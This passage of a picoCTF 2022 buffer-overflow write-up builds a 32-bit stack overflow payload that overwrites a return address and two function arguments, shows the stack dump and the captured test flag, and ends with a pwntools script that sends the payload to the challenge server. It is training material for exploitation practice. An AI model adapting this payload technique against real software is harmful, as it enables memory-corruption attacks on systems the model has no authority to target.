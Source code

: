 ```c
  printf(buf);
}
```

We want to overwrite arg1 and arg2. 64-bit programs take function parameters from registers, <br>
but for 32-bit they're just read off the stack. 

Editing the payload:

```python
payload = b"A"*112 + p32(0x08049296) + b'AAAA' + p32(0xCAFEF00D) + p32(0xF00DF00D)
```

We can see we've changed the first 2 stack variables:

```
00:0000│ esp 0xffffd5f4 ◂— 0xcafef00d
01:0004│     0xffffd5f8 ◂— 0xf00df00d
02:0008│     0xffffd5fc ◂— 0x300
03:000c│     0xffffd600 —▸ 0xffffd620 ◂— 0x1
04:0010│     0xffffd604 —▸ 0xf7e1fe2c (_GLOBAL_OFFSET_TABLE_) ◂— 0x21fd4c
05:0014│     0xffffd608 ◂— 0x0
06:0018│     0xffffd60c —▸ 0xf7c20af9 (__libc_start_call_main+121) ◂— add esp, 0x10
07:001c│     0xffffd610 ◂— 0x0
```

Printing the flag :)

```
$ ./vuln < payload
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AA�AAAA
testflag
```

```python
from pwn import p32, remote

payload = b"A"*112 + p32(0x08049296) + b'AAAA' + p32(0xCAFEF00D) + p32(0xF00DF00D)
io = remote("saturn.picoctf.net", 54716)
io.read()
io.sendline(payload)
io.read()
print(io.read())
```





<br>
<br>
<br>

# buffer overflow 3 - picoCTF 2022
